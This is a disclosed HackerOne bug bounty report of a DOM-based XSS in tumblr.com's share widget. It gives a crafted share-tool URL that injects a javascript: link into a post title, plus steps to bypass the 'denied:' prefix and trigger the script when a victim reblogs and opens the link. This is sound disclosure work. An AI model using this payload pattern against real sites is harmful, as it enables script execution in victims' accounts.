 # DOM-Based XSS in tumblr.com

## Report Details
- **Report ID**: 882546
- **URL**: https://hackerone.com/reports/882546
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-05-26T04:00:02.187Z
- **Disclosed**: 2020-07-27T15:24:50.524Z

## Reporter
- **Username**: keer0k
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
# Description
Hi, i just found a XSS that i think it's a valid issue and i think it is in scope this time.

To get the XSS the attacker needs to create a post in tumblr.com using `https://www.tumblr.com/widgets/share/tool?url=https%3A%2F%2Fkeerok.github.io%2F&title=%3Ca%20href=%22javascript:alert(document.domain);//http://evil.com/%22%3Eclick%20me%3C/a%3E&selection=click%20in%20the%20link%20after%20reblog&shareSource=chrome_extension` URL and change the link of click me text to `javascript:alert(document.domain);//https://evil.com/` without the "denied:". 

After post the payload , the victim needs to reblog the post in www.tumblr.com and click in "click me" and  in "open" to open in a new tab the URL, after this, XSS will be triggered.

I also attached a video of the PoC:
{F842750}


# Steps to reproduce
1. go to `https://www.tumblr.com/widgets/share/tool?url=https%3A%2F%2Fkeerok.github.io%2F&title=%3Ca%20href=%22javascript:alert(document.domain);//http://evil.com/%22%3Eclick%20me%3C/a%3E&selection=click%20in%20the%20link%20after%20reblog&shareSource=chrome_extension`
2. remove "denied:" from click me link
3. save the post
4. victim reblog the post
5. click in "click me"
6. click in open (Abrir)
7. XSS will be triggered

## Impact

it is possible to perform malicious actions on the victim's account

## Attachments
- Screen_Recording_2020-05-26_at_00.46.15.mov
